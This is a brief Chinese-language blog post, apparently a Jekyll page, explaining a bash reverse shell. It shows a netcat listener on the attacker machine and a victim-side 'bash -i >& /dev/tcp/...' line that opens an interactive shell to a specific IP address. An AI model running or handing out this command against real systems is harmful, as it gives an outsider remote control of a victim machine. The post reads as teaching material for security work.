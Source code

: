```yaml
---
layout: post
title: 反弹shell
categories: 安全工具
description: 反弹shell
keywords: 反弹shell
---
```



## 执行反弹 shell 

我们就以最常见的bash为例：
`attacker`机器上执行：
```powershell

nc -lvvnp 2333
```


`victim `机器上执行：
```shell
bash -i >& /dev/tcp/101.33.66.29/2333 0>&1
```


https://xz.aliyun.com/t/2549